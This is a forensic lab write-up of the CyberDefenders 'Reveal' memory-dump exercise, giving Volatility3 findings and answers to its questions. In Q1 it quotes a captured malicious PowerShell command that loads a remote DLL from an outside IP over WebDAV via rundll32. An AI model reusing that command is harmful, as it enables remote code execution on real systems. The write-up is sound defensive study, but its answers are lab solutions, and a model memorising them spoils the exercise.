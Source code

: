 This is a brief description of my work on the CyberDefenders "Reveal" lab (category: Endpoint Forensics).  


Here is the scenario:


*As a cybersecurity analyst for a leading financial institution, an alert from your SIEM solution has flagged unusual activity on an internal workstation. Given the sensitive financial data at risk, immediate action is required to prevent potential breaches.*


*Your task is to delve into the provided memory dump from the compromised system. You need to identify basic Indicators of Compromise (IOCs) and determine the extent of the intrusion. Investigate the malicious commands or files executed in the environment, and report your findings in detail to aid in remediation and enhance future defenses.*

To get started, I ran a few Volatility3 plugins with the output directed into their own file: psxview, pstree, cmdline, netscan, malfind. See the HTML files in this folder for the output.
Then I imported the output into a spreadsheet application for easier review: the tab-delimited output doesn't render correctly in Notepad or Notepad++, and its easier to sort the data this way.

I made some initial observations and bolded these rows for follow up later: 


powershell.exe and msiexec.exe in the "psxview" output, and


WMiPrvSE.exe, Calculator.exe (this is a child process of svchost.exe, which is suspicious), and the orphaned processes MicrosoftEdgeUpdater.exe, wordpad.exe, powershell.exe, and net.exe.

Looking at the "pstree" output, the command line associated with powershell.exe was the apparent malicious process: use of rundll32 to load a DLL over a network share is a popular method to load and execute code directly in memory, without leaving any disk artifacts behind.

Now for the questions!

Q1 Identifying the name of the malicious process helps in understanding the nature of the attack. What is the name of the malicious process? **powershell.exe**
- I ran the "pstree" plugin, identified a suspicious process and confirmed after a review of the command line used to execute it: 
`powershell.exe -windowstyle hidden net use \\45.9.74.32@8888\davwwwroot\ ; rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry`

Q2 Knowing the parent process ID (PID) of the malicious process aids in tracing the process hierarchy and understanding the attack flow. What is the parent PID of the malicious process? **4120**
- I learned this from reviewing the "pstree" output.

Q3 Determining the file name used by the malware for executing the second-stage payload is crucial for identifying subsequent malicious activities. What is the file name that the malware uses to execute the second-stage payload? **3435.dll**
- I learned this from reviewing the command described in the answer for Q1.

Q4 Identifying the shared directory on the remote server helps trace the resources targeted by the attacker. What is the name of the shared directory being accessed on the remote server? davwwwroot
- I learned this from reviewing the command described in the answer for Q1.

Q5 What is the MITRE sub-technique ID used by the malware to execute the second-stage payload? T1218.011 (System Binary Proxy Execution: Rundll32)
- I searched the MITRE ATT&CK website to find the sub-technique ID associated with rundll32.

Q6 Identifying the username under which the malicious process runs helps in assessing the compromised account and its potential impact. What is the username that the malicious process runs under? Elon
- I ran the "getsids" plugin against the malicious process ID.

Q7 Knowing the name of the malware family is essential for correlating the attack with known threats and developing appropriate defenses. What is the name of the malware family? STRELASTEALER
- I looked up the IP address from the command described in the answer for Q1 in VirusTotal.

